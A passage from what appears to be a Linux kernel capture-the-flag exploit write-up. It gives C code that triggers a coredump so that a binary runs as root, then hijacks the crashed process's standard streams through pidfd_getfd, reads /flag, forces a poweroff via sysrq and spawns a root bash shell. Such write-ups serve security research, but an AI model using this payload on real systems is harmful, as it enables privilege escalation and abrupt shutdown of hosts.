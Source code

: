 ```C
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Spawn shell when coredump happened. This is the code looks like:
```c++
int main(int argc, char **argv)
{
        if (argc > 1)
        {
			// #define SYS_pidfd_getfd 438
			int pid = strtoull(argv[1], 0, 10);
			int pfd = syscall(SYS_pidfd_open, pid, 0);
			int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
			int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
			int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
			dup2(stdinfd, 0);
			dup2(stdoutfd, 1);
			dup2(stderrfd, 2);
			/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
			system("cat /flag;echo o>/proc/sysrq-trigger");
			execlp("bash", "bash", NULL);
		}
```